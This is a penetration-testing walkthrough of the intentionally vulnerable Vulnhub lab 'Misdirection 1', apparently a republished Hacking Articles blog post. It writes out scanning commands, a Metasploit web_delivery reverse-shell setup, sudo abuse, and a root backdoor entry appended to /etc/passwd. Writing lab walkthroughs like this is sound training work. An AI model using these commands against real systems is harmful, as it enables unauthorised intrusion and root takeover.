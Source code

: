 ```yaml
---
title: 'Misdirection 1: Vulnhub Walkthrough'
date: 2019-10-09T06:25:00+01:00
draft: false
---
```


Misdirection 1 VM is made by FalconSpy. This VM is a purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing. It is of intermediate level and is very handy in order to brush up your skills as a penetration tester. The ultimate goal of this challenge is to get root and to read the root flag.

**Level: Intermediate**

Since these labs are available on the Vulnhub Website. We will be downloading the lab file from this [link](https://www.vulnhub.com/entry/misdirection-1,371/).

### **Penetration Testing Methodology**

**Network Scanning**

*   netdiscover
*   nmap port scan

**Enumeration**

*   Browsing HTTP Service
*   Performing Directory Bruteforce

**Exploiting**

*   Command Injection

**Privilege Escalation**

*   Writable etc/passwd File

### **Walkthrough**

### **Network Scanning**

The first step to attack is to identify the target. So, identify your target. To identify the target, we will use the following command:

```
netdiscover
```

![](https://i0.wp.com/1.bp.blogspot.com/-bEVeNbgL6YM/XZ1bj7lHOyI/AAAAAAAAg3Q/Barn3J6RiEAD1AmU5r8WQMDAXNX-UEeTgCLcBGAsYHQ/s1600/1.png?w=687&ssl=1)

Now we will run an aggressive port scan using nmap to gain the information about the open ports and the services running on the target machine.

```
nmap -A 192.168.1.106
```

We learned from the scan that we have the port 80 open which is hosting Rocket httpd service, and we have the port 22 open. This tells us that we also have the OpenSSH service running on the target machine. We also have 3306 which hints us to a database situation. Also, we have the Apache httpd running on the port 8080.

![](https://i0.wp.com/1.bp.blogspot.com/-7xJKSe9I0Ig/XZ1bk8dV3hI/AAAAAAAAg3Y/7JcieFrCJaUT--qYjbjDratsd_iVEagygCLcBGAsYHQ/s1600/2.png?w=687&ssl=1)

### **Enumeration**

Further, we need to start enumeration against the host machine, therefore we navigated to a web browser for exploring HTTP service. We have a webpage with some links here. We did some poking around but we figured out that the lab’s name is not a random name. It wants us to be misdirected. So, this is definitely a rabbit hole.

![](https://i2.wp.com/1.bp.blogspot.com/-WLVuKwj9eVM/XZ1blrsCWsI/AAAAAAAAg3g/97DfbF1Uxssrjl09eFvD6jLrCpCcvrhcQCLcBGAsYHQ/s1600/3.png?w=687&ssl=1)

Back to our nmap port scan, we saw that the Apache httpd service is running on port 8080. So, we thought there might be something worthwhile there. But it is just the Apache It works page. Another Misdirection.

**https://ift.tt/1ViTDWH**

![](https://i0.wp.com/1.bp.blogspot.com/-BByQFDZCLq8/XZ1blm8rknI/AAAAAAAAg3c/GP5q5MTe6EkNkNw01xUwLivLciGUOlq7QCLcBGAsYHQ/s1600/4.png?w=687&ssl=1)

For now, let’s try Directory Bruteforce using dirb. This surprisingly gave us pages with the name debug, shell and wordpress. All of these seems interesting.

```
dirb http://192.168.1.106:8080/
```

![](https://i1.wp.com/1.bp.blogspot.com/-s4tOn_NE3sg/XZ1bmchrdrI/AAAAAAAAg3k/nSZW6zSB6A0d43WvT0G0xNzd0HrCBkacACLcBGAsYHQ/s1600/5.png?w=687&ssl=1)

We soon figured out that wordpress was also another misdirection. This lab is full of rabbit holes. Now we found the debug page. On further inspection, we see that there is a virtual shell running on this page. This could possibly our way in.

![](https://i0.wp.com/1.bp.blogspot.com/-C0ltuzISyqI/XZ1bmuyfKfI/AAAAAAAAg3o/xlC-qT7GneYxaSFq3qRZA3s7OvJ0VV67QCLcBGAsYHQ/s1600/6.png?w=687&ssl=1)

### **Exploiting**

Now that we have a working virtual shell, let’s try to get a real shell using our good old friend Metasploit. We used the web\_delivery exploit with the php reverse\_tcp payload.

```
msf5 > use exploit/multi/script/web\_delivery  
msf5 exploit (multi/script/web\_delivery) > set target 1  
msf5 exploit (multi/script/web\_delivery) > set payload php/meterpreter/reverse\_tcp  
msf5 exploit (multi/script/web\_delivery) > set lhost 192.168.1.105  
msf5 exploit (multi/script/web\_delivery) > exploit
```

This gave us a beautiful PHP script that we could use to exploit the target machine.

![](https://i0.wp.com/1.bp.blogspot.com/-Sr6ZLE80f1s/XZ1bm0-alPI/AAAAAAAAg3w/VcrGFLoycXUe49xrVuchgDD5mxFguVT0wCLcBGAsYHQ/s1600/7.png?w=687&ssl=1)

Now back to our virtual shell in our browser. We pasted the PHP code that Metasploit generated. We executed this script on this shell. This should give us a meterpreter shell. We went back on out Metasploit terminal to check.

![](https://i2.wp.com/1.bp.blogspot.com/-Y7L7mV3D4Iw/XZ1bm32dJUI/AAAAAAAAg3s/RJ4c_Tx-YOkm12y8A0xSw_3zHrSInnz_QCLcBGAsYHQ/s1600/8.png?w=687&ssl=1)

And Of course, we have the meterpreter shell. This exploit mostly works in a situation similar to this. We interacted with the meterpreter session using the sessions command. Then after getting onto the meterpreter we used the “shell” command to get a shell on the target system. This came back to be an improper shell. Now we got to use our python one-liner to invoke a proper shell on the target machine. After getting the shell we saw that the shell we got is of user “www-data”. This means the story is not yet over. We have to work our way around to get an elevated privilege shell on the target machine. To escalate privilege, first, we got to enumerate the rights of this user. We did that using the “sudo -l” command.

```
msf5 exploit (multi/script/web\_delivery) > sessions 1  
meterpreter > shell  
python -c 'import pty;pty.spawn("/bin/bash")'  
www-data@misdirection:/var/www/html/debug$ sudo -l  
www-data@misdirection:/var/www/html/debug$ sudo -u brexit /bin/bash  
brexit@misdirection:/var/www/html/debug$
```

Here we observed that it shows that user www-data has sudo rights to login as user named brexit without any password. Now using the sudo -u command we invoked a shell of user brexit.  

![](https://i1.wp.com/1.bp.blogspot.com/-1FiqpWWA_rY/XZ1bnayoGZI/AAAAAAAAg30/W9aQzvdFEpIfVYvLenwCFssu_P7kUEf5wCLcBGAsYHQ/s1600/9.png?w=687&ssl=1)

### **Privilege Escalation**

As a part of our Enumeration for Escalating Privilege on the target machine, we try to find if the /etc/passwd is writable. We can see that the file is, in fact, writable as the user brexit. This is our way to move forward.

```
brexit@misdirection:~$ ls -la /etc/passwd
```

![](https://i2.wp.com/1.bp.blogspot.com/-NGjSwwPAua4/XZ1bjz1LMYI/AAAAAAAAg3I/7DmImlj5u84VhCaMVwNmTLMjLvIEVeKmQCLcBGAsYHQ/s1600/10.png?w=687&ssl=1)

Now we going to need the password hash for the user that we are going to create on the target machine by making an entry in the /etc/passwd file. We are going to use the openssl to generate a salted hash.

```
openssl passwd -1 -salt user3 pass123
```

![](https://i1.wp.com/1.bp.blogspot.com/-q6rjOkyR9X4/XZ1bj91VrCI/AAAAAAAAg3M/_kXuk35ozCEGz_sKZ0-jfESqfXGXSLvhwCLcBGAsYHQ/s1600/11.png?w=687&ssl=1)

Now back to our remote shell on the target machine. Here we are going to use the hash that we generated in the previous step and make a user raj which has the elevated privilege. We used the echo command to make an entry in the /etc/passwd file. After making an entry we checked the entry using the tail command. Now, all we got to do is run su command with the user name we just created and enter the password and root shell.

```
echo 'raj:$1$user3$rAGRVf5p2jYTqtqOW5cPu/:0:0::/root:/bin/bash' >>/etc/passwd  
tail /etc/passwd  
su raj  
pass123  
cd /root  
ls  
cat root.txt
```

Now that we got the root shell, let’s enumerate further for the root flag. We found one in the home directory of the root user.

![](https://i1.wp.com/1.bp.blogspot.com/-1UIEhz2UENo/XZ1bkqf9SVI/AAAAAAAAg3U/SxRh5r2a6zAajKWmwzzAio1QgCPG9aongCLcBGAsYHQ/s1600/12.png?w=687&ssl=1)

**Author: Pavandeep Singh** is a Technical Writer, Researcher and Penetration Tester Contact [**here**](https://www.linkedin.com/in/pavandeep-singh-6b1074132)

The post [Misdirection 1: Vulnhub Walkthrough](https://www.hackingarticles.in/misdirection-1-vulnhub-walkthrough/) appeared first on [Hacking Articles](https://www.hackingarticles.in).

  
  
from Hacking Articles https://ift.tt/2LZjcNv